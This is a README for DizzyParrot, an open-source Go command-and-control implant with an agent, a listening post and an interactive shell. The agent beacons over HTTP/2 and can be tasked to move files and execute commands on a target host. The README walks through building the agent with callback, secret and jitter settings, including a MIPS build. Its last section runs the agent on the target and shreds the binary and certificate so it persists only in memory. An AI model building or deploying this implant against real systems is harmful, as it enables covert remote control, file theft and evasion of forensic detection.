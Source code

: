 # DizzyParrot
A simple beaconing implant written in Go. DizzyParrot consist of an agent, listening post, and interactive shell. The agent communicates to the LP over HTTP/2 at a specified interval. An agent can be tasked using the interactive shell to pull and push files, and execute commands on the target host. 

## Getting Started

#### Install dependencies (Debian and Ubuntu)
```
apt update && apt -y upgrade && apt -y install build-essential postgresql screen vim
```

#### Install go
```
wget https://dl.google.com/go/go1.14.1.linux-amd64.tar.gz
tar -C /usr/local -xzf go1.14.1.linux-amd64.tar.gz

echo "export PATH=$PATH:/usr/local/go/bin" >> ~/.profile
source ~/.profile
```

#### Clone the repo using git and get go dependencies 
```
git clone https://github.com/af001/DizzyParrot.git

go get github.com/c-bata/go-prompt
go get github.com/common-nighthawk/go-figure
go get github.com/jedib0t/go-pretty/table
```

#### Build LP and shell
```
cd server; go build server.go
cd shell; go build shell.go
```

#### Build agent 
```
# Build for host Linux
go build -ldflags "-X main.name=A10000 -X main.secret=dirtyparrot -X main.callback=300 -X main.jitter=60 -X main.url=https://localhost:8443//portal/details"

# Cross-compile mips
GOOS=linux GOARCH=mips go build -ldflags "-X main.name=A10000 -X main.secret=dirtyparrot -X main.callback=300 -X main.jitter=60 -X main.url=https://localhost:8443//portal/details"
```

#### Start the LP
Generate certs and start LP
```
cd server; mkdir certs
openssl req -newkey rsa:2048 -nodes -keyout certs/server.key -x509 -days 365 -out certs/server.crt
./server -c config.yml
```
#### Start the shell
```
cd shell
./shell -c config.yml
```

### Execute agent on target host
```
./client -c server.crt &

# To run in memory 
shred -fuz client server.crt
```
